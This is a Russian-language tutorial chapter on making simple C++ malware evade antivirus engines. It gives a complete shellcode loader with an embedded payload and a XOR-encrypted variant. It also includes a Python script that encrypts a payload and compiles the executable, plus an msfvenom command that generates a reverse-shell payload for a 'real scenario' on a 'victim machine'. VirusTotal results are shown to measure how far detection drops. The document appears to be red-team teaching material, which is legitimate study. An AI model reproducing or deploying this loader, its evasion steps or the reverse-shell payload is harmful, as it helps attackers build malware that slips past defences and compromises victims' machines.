\newpage
\subsection{54. Обход антивирусов для простого вредоносного ПО на C++.}

الرَّحِيمِ الرَّحْمَٰنِ للَّهِ بِسْمِ 

{width="80%"}    

Обход антивирусных решений всегда был сложной задачей для специалистов red team и пентестеров, особенно для тех, кто разрабатывает вредоносное ПО.    

В этом руководстве мы напишем простое вредоносное ПО на C++, которое запустит наш payload: процесс `calc.exe`. Затем мы проверим через VirusTotal, сколько антивирусных движков обнаружат наш вредоносный файл, после чего попробуем уменьшить их количество.    

Начнём с простого кода нашего вредоносного ПО на C++:    

```cpp
/*
cpp implementation malware example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
    0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}

```

Итак, у нас есть одна главная функция `main(void)`:

{width="80%"}

и у нас есть размер полезной нагрузки `sizeof(my_payload)`.

Для простоты мы используем `calc.exe` в качестве полезной нагрузки. Не углубляясь в генерацию полезной нагрузки, мы просто подставим готовую полезную нагрузку в наш код:

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

А основная логика нашей функции `main` такова:    

{width="80%"}    

Давайте разберёмся с этой логикой. Если мы хотим запустить наш payload в памяти процесса, нам нужно выполнить несколько шагов. Мы должны создать новый буфер памяти, скопировать в него наш payload и затем запустить его выполнение.    

Сначала мы выделяем новый регион памяти в процессе и сохраняем его адрес в переменной `my_payload_mem`:    

{width="80%"}    

Этот регион памяти доступен для чтения и записи.    

Затем мы копируем `my_payload` в `my_payload_mem`:    

{width="80%"}    

А затем делаем наш буфер исполняемым:    

{width="80%"}    

Хорошо, но почему я не делаю это на строке `44`???    

{width="80%"}    

Почему бы просто не выделить буфер, который сразу доступен для чтения, записи и выполнения?    

Причина проста. Некоторые инструменты обнаружения и антивирусные движки могут отслеживать такие регионы памяти, потому что для процесса необычно запрашивать память, которая одновременно доступна для чтения, записи и выполнения. Чтобы обойти этот вид детекции, мы разделяем процесс на два шага.    

Если всё прошло успешно, мы запускаем наш payload в новом потоке процесса:    

{width="80%"}    

Теперь давайте скомпилируем наш вредоносный код:    

{width="80%"}    

и запустим его (на Windows 10 x64):    

{width="80%"}    

Таким образом, мы можем хранить наш payload в `.text` секции без шифрования.    

Теперь загрузим `evil.exe` на Virustotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/c9c49dbbb0a668df053d0ab788f9dde2d9e59c31672b5d296bb1e8309d7e0dfe/detection](https://www.virustotal.com/gui/file/c9c49dbbb0a668df053d0ab788f9dde2d9e59c31672b5d296bb1e8309d7e0dfe/detection)

**Итак, 22 из 66 антивирусных движков обнаружили наш файл как вредоносный.**    

Теперь попробуем уменьшить количество AV-движков, которые будут детектировать наш вредоносный файл.    

Для этого сначала мы должны зашифровать наш payload. Зачем нам это делать?
Основная цель шифрования - скрыть наш payload от антивирусов и реверс-инженеров, чтобы они не могли легко его идентифицировать.    

Цель шифрования - преобразовать данные, чтобы скрыть их от других.    
Для простоты в нашем случае мы используем XOR-шифрование.    

Давайте посмотрим, как использовать XOR для шифрования и дешифрования payload.    

Обновляем наш код вредоносного ПО:    

```cpp
/*
cpp implementation malware 
example with calc.exe payload 
encrypted via XOR
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {};
unsigned int my_payload_len = sizeof(my_payload);

// key for XOR decrypt
char my_secret_key[] = "mysupersecretkey";

// decrypt deXOR function
void XOR(char * data, size_t data_len, char * key, 
size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
    if (j == key_len - 1) j = 0;
      data[i] = data[i] ^ key[j];
      j++;
  }
}


int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Decrypt (DeXOR) the payload
  XOR((char *) my_payload, my_payload_len, 
  my_secret_key, sizeof(my_secret_key));

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, 
  my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, 
  my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, 
    (LPTHREAD_START_ROUTINE) my_payload_mem, 
    0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}
```

Основное отличие нашей первой простой реализации - мы добавляем функцию расшифровки XOR и наш секретный ключ `my_secret_key` для дешифрования:    

{width="80%"}    

На самом деле, это простая функция, это симметричное шифрование, которое мы можем использовать как для шифрования, так и для дешифрования с одним и тем же ключом.    

Затем мы дешифруем наш payload перед копированием в буфер:    

{width="80%"}    

И единственное, чего не хватает - это наш payload:    

{width="80%"}    

который должен быть зашифрован с использованием XOR.    

Для этого создадим простой Python-скрипт, который зашифрует payload и заменит его в нашем C++ шаблоне:    

```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
    key = str(key)
    l = len(key)
    output_str = ""

    for i in range(len(data)):
        current = data[i]
        current_key = key[i % len(key)]
        ordd = lambda x: x if isinstance(x, int) else ord(x)
        output_str += chr(ordd(current) ^ ord(current_key))
    return output_str

## encrypting
def xor_encrypt(data, key):
    ciphertext = xor(data, key)
    ciphertext = '{ 0x' + ', 0x'.
    join(hex(ord(x))[2:] for x in ciphertext) + ' };'
    print (ciphertext)
    return ciphertext, key

## key for encrypt/decrypt
my_secret_key = "mysupersecretkey"

## payload calc.exe
plaintext = open("./calc.bin", "rb").read()

ciphertext, p_key = xor_encrypt(plaintext, my_secret_key)

## open and replace our payload in C++ code
tmp = open("evil_xor.cpp", "rt")
data = tmp.read()
data = data.replace('unsigned char my_payload[] = { };', 
'unsigned char my_payload[] = ' + ciphertext)
tmp.close()
tmp = open("evil-enc.cpp", "w+")
tmp.write(data)
tmp.close()

## compile
try:
    cmd = "x86_64-w64-mingw32-gcc evil-enc.cpp"
    cmd += "-o evil.exe -s -ffunction-sections"
    cmd += "-fdata-sections -Wno-write-strings"
    cmd += " -fno-exceptions -fmerge-all-constants"
    cmd += "-static-libstdc++ -static-libgcc"
    cmd += " >/dev/null 2>&1"
    os.system(cmd)
except:
    print ("error compiling malware template :(")
    sys.exit()
else:
    print (cmd)
    print ("successfully compiled :)")

```

Для простоты мы используем payload `calc.bin`:    

{width="80%"}    

но в реальном сценарии можно использовать что-то вроде:    
```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=10.9.1.6 LPORT=4444 -f raw -o hack.bin
```

Запускаем Python-скрипт:    
```bash
python3 evil_enc.py
```

{width="80%"}    

и запускаем на машине жертвы (`Windows 10 x64`):    

{width="80%"}    

Теперь загрузим наш новый `evil.exe` с зашифрованным payload на Virustotal:    

{width="80%"}    

[https://www.virustotal.com/gui/file/c7393080957780bb88f7ab1fa2d19bdd1d99e9808efbfaf7989e1e15fd9587ca/detection](https://www.virustotal.com/gui/file/c7393080957780bb88f7ab1fa2d19bdd1d99e9808efbfaf7989e1e15fd9587ca/detection)

**Итак, нам удалось уменьшить количество антивирусных движков, обнаруживающих наше вредоносное ПО, с 22 до 18!**

[исходный код на Github](https://github.com/cocomelonc/2021-04-09-av-evasion-1-)    

- [VirtualAlloc](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)    
- [RtlMoveMemory](https://docs.microsoft.com/en-us/windows/win32/devnotes/rtlmovememory)    
- [VirtualProtect](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect)    
- [WaitForSingleObject](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)    
- [CreateThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)    
- [XOR](https://en.wikipedia.org/wiki/XOR_cipher)    

В следующей части я расскажу, как ещё можно уменьшить количество детектов с помощью техники обфускации вызовов функций.
